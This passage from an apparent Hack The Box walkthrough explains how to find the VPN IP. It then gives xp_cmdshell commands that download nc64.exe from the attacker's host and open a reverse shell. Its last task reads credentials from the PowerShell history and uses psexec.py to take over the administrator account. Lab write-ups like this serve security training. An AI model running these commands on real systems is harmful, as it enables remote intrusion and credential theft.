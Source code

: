 That 10.10.XX.XX is your HTB VPN IP address.

## Alternative Methods

If the above doesn't work, try these:

```bash
# Option 1: ifconfig with grep
ifconfig | grep -A 1 tun0

# Option 2: Just the IP address
ip -4 addr show tun0 | grep -oP '(?<=inet\s)\d+(\.\d+){3}'

# Option 3: Check all interfaces
ip -4 addr
```

## Important Notes

1. **Do NOT use**:
   - 127.0.0.1 (localhost)
   - Your local network IP (192.168.x.x)
   - Your public internet IP

2. **The target machine must be able to reach your IP**:
   - This is why we use the VPN IP - it creates a direct connection between you and the target

3. **Verify connectivity**:
   - You can test if your HTTP server is accessible by running:
     ```bash
     curl http://YOUR_VPN_IP:80
     ```
     from another terminal on your machine

When you replace "YOUR_IP_ADDRESS" in the commands, use this VPN IP address. For example:

```sql
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.26/nc64.exe -outfile nc64.exe"
```

And for the reverse shell:

```sql
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.26 443"
```
### Task 8: Capture the Root Flag

**Solution:**
```bash
# Check PowerShell history for credentials
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# Use discovered Administrator credentials with Impacket's psexec.py
python3 psexec.py administrator@{TARGET_IP}

# Navigate to Administrator's desktop and read the root flag
cd C:\Users\Administrator\Desktop
type root.txt
```
The PowerShell history file reveals the Administrator password: MEGACORP_4dm1n!!
